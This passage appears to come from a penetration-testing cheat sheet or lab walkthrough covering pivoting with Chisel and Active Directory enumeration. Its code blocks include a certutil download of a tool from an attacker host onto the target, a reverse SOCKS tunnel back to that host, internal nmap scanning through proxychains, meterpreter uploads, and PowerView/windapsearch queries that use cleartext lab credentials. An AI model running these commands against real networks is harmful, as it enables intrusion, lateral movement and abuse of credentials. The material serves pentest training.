 ### 5.2 Pivoting with Chisel
```bash
# Downloading and Preparing Chisel on Linux:
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_arm64.gz -O chisel.gz -q
gunzip chisel.gz
chmod +x chisel

# Downloading Chisel for Windows:
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz -O chisel-w.gz -q
gunzip chisel-w.gz

# Transferring Chisel to the Target:
certutil -urlcache -f http://192.168.0.101/chisel.exe C:\Users\Public\chisel.exe

# Establishing Reverse Tunnelling:
./chisel server --reverse --port 9999
chisel.exe client 192.168.0.101:9999 R:1080:socks

# Scanning the Internal Network via Proxychains:
proxychains4 -q nmap -sT 10.10.1.13 -sV -sC --top-ports=20 -T4 --open
```

## 6. Domain Enumeration
### 6.1 Using Powerview and Windapsearch
```bash
# Enumerate Domain Users with Powerview:
proxychains4 -q powerview BYTESHIELD/p.brown:'P.Password1!'@10.10.1.13 Get-DomainUser -Select 1

# Detailed User Filtering:
Get-DomainUser -Select samaccountname,memberof,description

# Windapsearch Examples:
proxychains4 -q python3 windapsearch.py -d BYTESHIELD.local -u "BYTESHIELD\\p.brown" -p 'P.Password1!' -U
proxychains4 -q python3 windapsearch.py -d BYTESHIELD.local -u "BYTESHIELD\\p.brown" -p 'P.Password1!' --user-spns
proxychains4 -q python3 windapsearch.py -d BYTESHIELD.local -u "BYTESHIELD\\p.brown" -p 'P.Password1!' --da

# Enumerate Domain with AD Module
# From meterpreter shell:
upload /root/Desktop/tools/ADModule-master.zip C:\Users\fileadmin\Downloads
# Then, on the target:
Expand-Archive C:\Users\fileadmin\Downloads\ADModule-master.zip
Import-Module C:\Users\fileadmin\Downloads\ADModule-master\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
# Get Domain Information:
Get-ADDomain
# Enumerate Users:
Get-ADUser -Filter *
#Enumerate Computers:
Get-ADComputer -Filter *

# Using SharpView (Uploaded via Meterpreter):
upload /root/Desktop/tools/SharpView.exe C:\Users\fileadmin\Downloads
# Then from a shell:
SharpView.exe Get-DomainUser -domain cola
```
